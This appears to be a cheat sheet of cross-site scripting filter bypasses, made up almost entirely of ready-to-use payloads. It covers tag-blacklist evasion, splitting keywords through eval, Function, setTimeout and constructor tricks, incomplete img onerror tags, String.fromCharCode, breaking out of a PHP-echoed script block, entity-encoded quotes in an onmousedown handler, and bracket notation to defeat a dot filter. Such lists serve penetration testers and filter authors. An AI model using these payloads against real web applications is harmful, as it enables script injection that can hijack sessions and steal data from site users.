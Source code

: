 ### Bypass tag blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

### Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

### Bypass with incomplete html tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

### Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

### Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

### Bypass quotes in mousedown event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```

### Bypass dot filter

```javascript
<script>window['alert'](document['domain'])</script>
```
